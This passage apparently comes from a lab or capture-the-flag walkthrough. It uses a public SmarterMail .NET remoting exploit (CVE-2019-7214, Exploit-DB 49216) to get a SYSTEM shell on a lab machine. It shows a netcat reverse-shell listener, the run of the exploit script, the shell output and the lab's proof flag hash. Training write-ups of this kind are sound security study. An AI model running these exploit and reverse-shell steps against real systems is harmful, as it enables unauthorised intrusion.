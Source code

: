 We strike gold, there might be an RCE...

Looking at the code and reading about the exploit we find that this will only work if there is a MS .NET remoting listener on a port, typically 17001 (and there is!). See:

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-7214
- https://www.speedguide.net/port.php?port=17001&ref=benheater.com
- https://www.exploit-db.com/exploits/49216

I set up a local listener on port 80, modify the python script to use the IPs and ports I want, and run it.

```
┌──(kali㉿kali)-[~/algernon]
└─$ python3 49216.py
```

And we catch a shell as `nt authority\system`:

```
┌──(kali㉿kali)-[~/algernon]
└─$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.45.194] from (UNKNOWN) [192.168.181.65] 49995
whoami
nt authority\system
PS C:\Windows\system32> 
```

We find our proof in the `Administrator` user's Desktop:

```
PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/29/2020   9:29 PM           1450 Microsoft Edge.lnk                                                    
-a----         3/7/2024   8:12 PM             34 proof.txt                                                             


PS C:\Users\Administrator\Desktop> cat proof.txt
be8e170253af58bc8fca8a892fbf9618
```

> Lesson of the day: `findstr` is basically `grep` for Windows